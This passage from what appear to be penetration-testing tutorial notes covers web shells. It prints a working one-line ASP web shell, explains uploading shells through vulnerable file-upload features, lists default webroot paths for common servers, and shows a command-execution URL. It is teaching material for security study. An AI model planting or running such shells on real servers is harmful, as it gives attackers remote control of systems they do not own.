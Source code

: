 ```asp
<% eval request("cmd") %>
```

#### Uploading a Web Shell

Once we have a `web shell`, we need to place it inside the server’s `webroot` (the directory where the web server serves files). This lets us execute the script by accessing it through a browser.

Common method: exploit a vulnerable `file upload` feature to upload a shell script such as `shell.php`.

| Web Server |    Default Webroot     |
| :--------: | :--------------------: |
|  `Apache`  |     /var/www/html/     |
|  `Nginx`   | /usr/local/nginx/html/ |
|   `IIS`    |  c:\inetpub\wwwroot\   |
|  `XAMPP`   |    C:\xampp\htdocs\    |

#### Accessing Web Shell

Once we write our web shell, we can either access it through a browser or by using `cURL`. We can visit the `shell.php` page on the compromised website, and use `?cmd=id` to execute the `id` command:

```http
http://SERVER_IP:PORT/shell.php?cmd=id
```
